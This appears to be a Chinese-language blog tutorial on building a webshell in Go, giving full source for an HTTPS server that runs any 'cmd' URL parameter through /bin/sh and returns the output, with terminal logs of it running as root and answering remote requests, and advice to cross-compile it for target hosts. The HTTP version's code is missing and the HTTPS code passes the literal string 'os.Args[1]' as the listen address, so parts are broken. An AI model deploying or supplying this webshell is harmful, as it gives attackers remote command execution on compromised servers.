




如何实现一个基于 Golang 的 webshell？
0x00 前言
在这篇文章中，我将记录一下如何使用Golang实现一个webshell。
0x01 HTTP
1 | package main |
1
2
3
4
5
6
7
8
9ec2-user@kali:~/go/src/webshell$ go install webshell
ec2-user@kali:~/go/src/webshell$ ~/go/bin/webshell 0.0.0.0:80
2020/01/01 14:05:55 Listening for HTTP requests.
2020/01/01 14:05:55 Error creating server. listen tcp 0.0.0.0:80: bind: permission denied
ec2-user@kali:~/go/src/webshell$ sudo ~/go/bin/webshell 0.0.0.0:80
2020/01/01 14:06:00 Listening for HTTP requests.
2020/01/01 14:06:04 Request from 54.222.196.177:61772: ifconfig
^C
ec2-user@kali:~/go/src/webshell$

0x02 HTTPS
注意把证书和私钥配上就可以走HTTPS了。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56package main
import (
"fmt"
"log"
"net/http"
"os"
"os/exec"
)
var shell = "/bin/sh"
var shellArg = "-c"
func main() {
if len(os.Args) != 2 {
fmt.Printf("Usage: %s <listenAddress>\n", os.Args[0])
fmt.Printf("Example: %s localhost:8080\n", os.Args[0])
os.Exit(1)
}
http.HandleFunc("/", requestHandler)
log.Println("Listening for HTTPS requests.")
err := http.ListenAndServeTLS(
"os.Args[1]",
"cert.pem",
"privateKey.pem",
nil,
)
if err != nil {
log.Fatal("Error creating server. ", err)
}
}
func requestHandler(writer http.ResponseWriter, request *http.Request) {
// Get command to execute from GET query parameters
cmd := request.URL.Query().Get("cmd")
if cmd == "" {
fmt.Fprintln(
writer,
"No command provided. Example: /?cmd=whoami")
return
}
log.Printf("Request from %s: %s\n", request.RemoteAddr, cmd)
fmt.Fprintf(writer, "You requested command: %s\n", cmd)
// Run the command
command := exec.Command(shell, shellArg, cmd)
output, err := command.Output()
if err != nil {
fmt.Fprintf(writer, "Error with command.\n%s\n", err.Error())
}
// Write output of command to the response writer interface
fmt.Fprintf(writer, "Output: \n%s\n", output)
}
1
2
3
4ec2-user@kali:~/go/src/httpswebshell$ curl 127.0.0.1:443/?cmd=id
You requested command: id
Output:
uid=0(root) gid=0(root) groups=0(root)

0x03 使用方法（交叉编译）
需要针对目标主机的类型，将其编译为对应的可执行文件。
本地测试命令：1
2sudo go run ~/go/src/httpswebshell/webshell.go 0.0.0.0:443
go install httpswebshell # 编译
0x04 后记
记录一下使用Golang实现webshell，走HTTP(S)。
0x05 参考文献
[1] Security with Go